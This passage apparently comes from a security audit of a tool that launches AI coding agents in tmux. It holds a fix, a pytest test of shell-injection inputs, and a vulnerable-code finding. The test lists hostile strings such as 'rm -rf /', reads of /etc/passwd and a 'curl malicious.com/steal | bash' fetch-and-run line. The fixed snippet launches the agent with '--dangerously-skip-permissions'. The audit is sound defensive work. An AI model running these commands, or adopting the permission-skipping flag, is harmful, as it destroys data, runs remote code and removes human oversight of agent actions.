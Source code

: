 ```python
    claude_cmd = ["claude"]
    if profile:
        claude_cmd.extend(["--profile", profile])  # No direct interpolation
    claude_cmd.append("--dangerously-skip-permissions")

    instruction_content = """Welcome! You are being launched as the Tmux Orchestrator.

Please run the following command to load your orchestrator context:

tmux-orc context show orchestrator

This will provide you with your role, responsibilities, and workflow for managing AI agent teams."""

    # Create safe script
    startup_script = create_safe_startup_script(claude_cmd, instruction_content)
    # ... rest of function
```

**Testing Requirements**:
```python
def test_shell_injection_prevention():
    """Test that spawn_orc prevents shell injection."""
    malicious_inputs = [
        "; rm -rf / #",
        "`cat /etc/passwd`",
        "$(whoami)",
        "../../etc/passwd",
        "profile; curl malicious.com/steal | bash",
        "' ; echo 'pwned' ; echo '"
    ]

    for malicious_input in malicious_inputs:
        with pytest.raises(click.BadParameter):
            spawn_orc(profile=malicious_input, terminal="auto", no_launch=True, no_gui=False)
```

---

### 1.2 Command Injection in Agent Spawning (CVSS 7.5)
**File**: `tmux_orchestrator/cli/spawn.py`
**Lines**: 102-314
**Severity**: HIGH - Agent compromise possible

#### **Vulnerable Code**:
```python
# Lines 204-217 in spawn.py
daemon_command = [
    sys.executable, "-c",
    f"""
import sys
sys.path.insert(0, '/workspaces/Tmux-Orchestrator')  # ⚠️ Hardcoded path
from tmux_orchestrator.core.monitor import IdleMonitor
from tmux_orchestrator.utils.tmux import TMUXManager

tmux = TMUXManager()
monitor = IdleMonitor(tmux)
monitor._run_monitoring_daemon({interval})  # ⚠️ Direct interpolation
"""
]
```
